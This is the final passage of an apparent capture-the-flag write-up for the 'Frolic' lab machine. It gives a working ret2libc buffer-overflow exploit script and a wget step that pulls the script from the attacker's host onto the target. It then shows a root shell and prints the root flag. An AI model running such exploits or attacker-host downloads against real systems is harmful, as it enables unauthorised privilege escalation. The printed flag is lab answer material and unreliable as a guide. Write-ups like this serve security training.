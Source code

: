 `exploit.py` prepares our payload:

```python
#!/usr/bin/python
import struct

# 1. Create buffer
offset = 52
buffer = 'A' * offset
# 2. Little endian conversion
libc = 0xb7e19000
system = struct.pack('<I', libc + 0x0003ada0)
fn_exit = struct.pack('<I', libc + 0x0002e9d0)
binsh = struct.pack('<I', libc + 0x15ba0b)

payload = buffer + system + fn_exit + binsh

print(payload)
```

Download our script on the target machine:

```bash
$ wget http://10.10.14.7:8000/exploit.py
wget http://10.10.14.7:8000/exploit.py
--2020-12-30 01:49:06--  http://10.10.14.7:8000/exploit.py
Connecting to 10.10.14.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 330 [text/x-python]
Saving to: 'exploit.py'

exploit.py          100%[===================>]     330  --.-KB/s    in 0s      

2020-12-30 01:49:06 (28.6 MB/s) - 'exploit.py' saved [330/330]
```

## Root

Execute it, and then get root flag:

```bash
www-data@frolic:/home/ayush/.binary$ ./rop $(python /tmp/exploit.py)
./rop $(python /tmp/exploit.py)
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cat /root/root.txt
cat /root/root.txt
85d3fdf03f969892538ba9a731826222
# 
```
___

## Useful links
